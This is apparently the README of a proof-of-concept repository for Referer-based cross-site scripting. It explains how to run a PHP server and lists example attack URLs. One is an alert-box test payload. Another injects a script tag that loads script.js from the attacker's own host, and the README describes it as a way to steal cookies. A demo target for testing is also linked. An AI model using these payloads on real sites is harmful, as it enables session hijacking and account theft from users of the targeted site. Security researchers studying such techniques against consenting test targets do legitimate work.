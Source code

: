 ## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with *php -S 0.0.0.0:80*

### Example

for testing:
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL

or to steal cookies:
http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link works as a test of our index.php file:
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php

*Note: Replace OUR_IP and TARGET_URL as appropriate.*

